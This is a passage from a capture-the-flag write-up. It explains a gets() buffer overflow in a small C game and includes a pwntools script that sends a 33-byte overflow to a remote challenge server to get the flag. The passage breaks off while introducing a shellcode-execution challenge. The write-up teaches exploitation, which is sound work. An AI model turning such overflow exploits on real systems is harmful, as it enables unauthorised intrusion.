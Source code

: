 ```c
                break;
        }
    }

    printf("You win! How did you even %d points?!?\n", score);
    printf("As promised, here is the flag:\n");
    printf(FLAG);

    return 0;
}
```

It's immediately obvious that the vulnerable function here is `gets(buf)` which doesn't do any checks, allowing us to attack it via buffer overflow. The size of the buffer is 32 bytes. Honestly speaking, I don't think there's much to go into for this one because the moment I opened up GDB to test out a basic overflow `'a'*33`, it caused the while loop to break due to the 1 byte overflow and the code reached this portion:
```c
printf("You win! How did you even %d points?!?\n", score);
printf("As promised, here is the flag:\n");
printf(FLAG);
```

I tested the same solution on the host and it gave me the flag.
```py
#!usr/bin/env python
from pwn import *
r = remote("34.87.186.254",21212)
payload = b"a"*33
r.sendline(payload)
r.recvuntil(b'here is the flag:')
r.recvline()
print("Flag: "+r.recvline())
r.close()
```

![](https://i.ibb.co/rpyTS4j/scissorspaperpwn1.png)


Flag: `greyhats{Game_hacker_in_the_making?}`

Sweet and simple, the purest form of pwn. Have a picture of a cute cat as a bonus :)

![](https://d2zp5xs5cp8zlg.cloudfront.net/image-78260-800.jpg)

# Complete Me 🍼 | 19 solves 460 pts
This challenge was interesting but also pretty easy to tackle. Similarly, the source code and an ELF has been provided:
```c
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>
#include <stdint.h>

int main() {

	setbuf(stdin, 0);
	setbuf(stdout, 0);

	void (*print_flag)(void);
	char* code = mmap(0, 0x1000, 7, MAP_SHARED | MAP_ANONYMOUS, 0, 0);
	print_flag = (void(*)(void))code;

	printf("The flag is: ");
	fgets(code, 0x1000, stdin);
```